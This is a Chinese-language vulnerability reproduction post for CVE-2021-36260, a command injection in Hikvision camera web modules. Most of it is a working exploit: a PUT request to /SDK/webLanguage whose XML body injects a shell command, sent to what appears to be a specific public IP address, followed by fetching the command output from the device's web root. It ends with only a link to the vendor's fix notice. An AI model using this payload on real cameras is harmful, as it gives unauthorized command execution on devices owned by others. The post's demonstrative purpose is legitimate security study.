 ```yaml
---
layout: article
title: "CVE-2021-36260"
mathjax: true
tags: "revulns"
---
```


# CVE-2021-36260
###### 海康威视摄像头命令注入
# 漏洞概述：
```
海康威视部分产品中的web模块存在一个命令注入漏洞，由于对输入参数校验不充分，攻击者可以发送带有恶意命令的报文到受影响设备，成功利用此漏洞可以导致命令执行。海康威视已发布版本修复该漏洞。
```
# 漏洞编号：
CVE-2021-36260



# 漏洞复现
#### 0x00摄像头版本
```
在界面中是能够看到有多少年的。正常来说应该在21年的年中之前的摄像头都可能会存在该问题
```
![image](https://github.com/FeiNiao/feiniao.github.io/blob/master/_posts/images/ezvCLGFFHcmDGQAYpmy93AP3orSJVFhMudSQOR6cI8Y.png?raw=true)

#### 0x01漏洞点
漏洞点位于：/SDK/webLanguage，利用PUT方法上传xml数据

post\_data

```
<?xml version="1.0"
encoding="UTF-8"?><language>$(ifconfig -a >
webLib/dq)</language>
```
#### 0x02抓包
访问漏洞点

```
http://178.147.175.88:5357/SDK/webLanguage
```
![image](https://github.com/FeiNiao/feiniao.github.io/blob/master/_posts/images/LJwhqwbaQVuTjsz_uar9P90uBz3iNbXz-vs91V51PbY.png?raw=true)



burp重放

![image](https://github.com/FeiNiao/feiniao.github.io/blob/master/_posts/images/9YTTQdF_Bpn25jRm35f7vqVeWEhWA6b4TgmP22DYkfA.png?raw=true)



更改请求方式为PUT，添加poc数据

```
PUT /SDK/webLanguage HTTP/1.1
Host: 178.147.175.88:5357
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 83

<?xml version="1.0"
encoding="UTF-8"?><language>$(ifconfig > webLib/dq)</language>
```
![image](https://github.com/FeiNiao/feiniao.github.io/blob/master/_posts/images/DUY2-UcHu7L1ikp_V6kjIQWHhbBzV7bxkPg_bC3b-0c.png?raw=true)



#### 更换请求路径
该poc会将`ifconfig` 命令执行的结果保存到dq这个文件中

通过浏览器访问即可查看结果，文件落地默认于webLib/ 也就是web根目录下

```
http://178.147.175.88:5357/dq
```
![image](https://github.com/FeiNiao/feiniao.github.io/blob/master/_posts/images/4wuAp40ZHdZVyRdI6SZ9N4O6-5yg8mtrFF7QY0UgCLY.png?raw=true)



也可通过bp进行查看

![image](https://github.com/FeiNiao/feiniao.github.io/blob/master/_posts/images/K3MRzmiigIUa87mJ_272_EE9lyztCEdSMQH_Cz5nIOs.png?raw=true)





#### 修复
参考官方修复文档：

```
https://www.hikvision.com/cn/support/CybersecurityCenter/SecurityNotices/20210919/
```


